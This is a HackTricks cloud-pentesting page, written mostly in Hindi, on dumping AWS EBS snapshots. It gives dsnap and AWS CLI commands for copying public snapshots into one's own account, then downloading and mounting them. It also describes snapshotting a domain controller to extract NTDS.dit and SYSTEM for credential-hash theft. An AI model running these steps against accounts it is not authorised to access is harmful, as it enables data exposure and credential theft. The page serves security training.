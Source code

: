 # AWS - EBS Snapshot Dump

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## एक स्नैपशॉट को स्थानीय रूप से जांचना
```bash
# Install dependencies
pip install 'dsnap[cli]'
brew install vagrant
brew install virtualbox

# Get snapshot from image
mkdir snap_wordir; cd snap_workdir
dsnap init
## Download a snapshot of the volume of that instance
## If no snapshot existed it will try to create one
dsnap get <instance-id>
dsnap --profile default --region eu-west-1 get i-0d706e33814c1ef9a
## Other way to get a snapshot
dsnap list #List snapshots
dsnap get snap-0dbb0347f47e38b96 #Download snapshot directly

# Run with vagrant
IMAGE="<download_file>.img" vagrant up #Run image with vagrant+virtuabox
IMAGE="<download_file>.img" vagrant ssh #Access the VM
vagrant destroy #To destoy

# Run with docker
git clone https://github.com/RhinoSecurityLabs/dsnap.git
cd dsnap
make docker/build
IMAGE="<download_file>.img" make docker/run #With the snapshot downloaded
```
{% hint style="danger" %}
**नोट** कि `dsnap` आपको सार्वजनिक स्नैपशॉट डाउनलोड करने की अनुमति नहीं देगा। इससे बचने के लिए, आप स्नैपशॉट की एक प्रति अपने व्यक्तिगत खाते में बना सकते हैं, और उसे डाउनलोड कर सकते हैं:
{% endhint %}

{% code overflow="wrap" %}
```bash
# Copy the snapshot
aws ec2 copy-snapshot --source-region us-east-2 --source-snapshot-id snap-09cf5d9801f231c57 --destination-region us-east-2 --description "copy of snap-09cf5d9801f231c57"

# View the snapshot info
aws ec2 describe-snapshots --owner-ids self --region us-east-2

# Download the snapshot. The ID is the copy from your account
dsnap --region us-east-2 get snap-027da41be451109da

# Delete the snapshot after downloading
aws ec2 delete-snapshot --snapshot-id snap-027da41be451109da --region us-east-2
```
{% endcode %}

इस तकनीक के बारे में अधिक जानकारी के लिए मूल शोध देखें [https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/](https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/)

आप इसे Pacu के साथ [ebs\_\_download\_snapshots](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#ebs__download_snapshots) मॉड्यूल का उपयोग करके कर सकते हैं

## AWS में एक स्नैपशॉट की जांच करना

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id snap-0b49342abd1bdcb89
```
{% endcode %}

**इसे आपके नियंत्रण में एक EC2 VM में माउंट करें** (यह बैकअप की कॉपी के समान क्षेत्र में होना चाहिए):

चरण 1: EC2 –> वॉल्यूम पर जाकर आपके पसंद के आकार और प्रकार का एक नया वॉल्यूम बनाया जाना है।

इस क्रिया को करने के लिए, इन कमांड का पालन करें:

* EC2 इंस्टेंस से जोड़ने के लिए एक EBS वॉल्यूम बनाएं।
* सुनिश्चित करें कि EBS वॉल्यूम और इंस्टेंस एक ही जोन में हैं।

चरण 2: बनाए गए वॉल्यूम पर राइट-क्लिक करके "जोड़ें वॉल्यूम" विकल्प का चयन किया जाना है।

चरण 3: इंस्टेंस टेक्स्ट बॉक्स से इंस्टेंस का चयन किया जाना है।

इस क्रिया को करने के लिए, निम्नलिखित कमांड का उपयोग करें:

* EBS वॉल्यूम को जोड़ें।

चरण 4: EC2 इंस्टेंस में लॉगिन करें और कमांड `lsblk` का उपयोग करके उपलब्ध डिस्क की सूची बनाएं।

चरण 5: कमांड `sudo file -s /dev/xvdf` का उपयोग करके जांचें कि वॉल्यूम में कोई डेटा है या नहीं।

यदि उपरोक्त कमांड का आउटपुट "/dev/xvdf: data" दिखाता है, तो इसका मतलब है कि वॉल्यूम खाली है।

चरण 6: कमांड `sudo mkfs -t ext4 /dev/xvdf` का उपयोग करके वॉल्यूम को ext4 फाइल सिस्टम में फॉर्मेट करें। वैकल्पिक रूप से, आप कमांड `sudo mkfs -t xfs /dev/xvdf` का उपयोग करके xfs फॉर्मेट भी कर सकते हैं। कृपया ध्यान दें कि आपको या तो ext4 या xfs का उपयोग करना चाहिए।

चरण 7: नए ext4 वॉल्यूम को माउंट करने के लिए अपनी पसंद का एक डायरेक्टरी बनाएं। उदाहरण के लिए, आप "newvolume" नाम का उपयोग कर सकते हैं।

इस क्रिया को करने के लिए, कमांड `sudo mkdir /newvolume` का उपयोग करें।

चरण 8: कमांड `sudo mount /dev/xvdf /newvolume/` का उपयोग करके वॉल्यूम को "newvolume" डायरेक्टरी में माउंट करें।

चरण 9: "newvolume" डायरेक्टरी में डायरेक्टरी बदलें और वॉल्यूम माउंट को मान्य करने के लिए डिस्क स्पेस की जांच करें।

इस क्रिया को करने के लिए, निम्नलिखित कमांड का उपयोग करें:

* डायरेक्टरी को `/newvolume` में बदलें।
* कमांड `df -h .` का उपयोग करके डिस्क स्पेस की जांच करें। इस कमांड का आउटपुट "newvolume" डायरेक्टरी में फ्री स्पेस दिखाना चाहिए।

आप इसे Pacu के साथ `ebs__explore_snapshots` मॉड्यूल का उपयोग करके कर सकते हैं।

## AWS में एक स्नैपशॉट की जांच करना (cli का उपयोग करके)

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id <snap-0b49342abd1bdcb89>

# Attach new volume to instance
aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>

# mount the snapshot from within the VM

sudo file -s /dev/sdh
/dev/sdh: symbolic link to `xvdh'

sudo file -s /dev/xvdh
/dev/xvdh: x86 boot sector; partition 1: ID=0xee, starthead 0, startsector 1, 16777215 sectors, extended partition table (last)\011, code offset 0x63

lsblk /dev/xvdh
NAME     MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
xvdh     202:112  0    8G  0 disk
├─xvdh1  202:113  0  7.9G  0 part
├─xvdh14 202:126  0    4M  0 part
└─xvdh15 202:127  0  106M  0 part

sudo mount /dev/xvdh1 /mnt

ls /mnt
```
{% endcode %}

## Shadow Copy

कोई भी AWS उपयोगकर्ता जिसके पास **`EC2:CreateSnapshot`** अनुमति है, वह **डोमेन कंट्रोलर का स्नैपशॉट** बनाकर सभी डोमेन उपयोगकर्ताओं के हैश चुरा सकता है, इसे एक ऐसे इंस्टेंस पर माउंट करके जिसे वह नियंत्रित करता है और **NTDS.dit और SYSTEM** रजिस्ट्री हाइव फ़ाइल को Impacket के secretsdump प्रोजेक्ट के लिए निर्यात कर सकता है।

आप इस उपकरण का उपयोग हमले को स्वचालित करने के लिए कर सकते हैं: [https://github.com/Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy) या आप स्नैपशॉट बनाने के बाद पिछले तकनीकों में से एक का उपयोग कर सकते हैं।

## References

* [https://devopscube.com/mount-ebs-volume-ec2-instance/](https://devopscube.com/mount-ebs-volume-ec2-instance/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
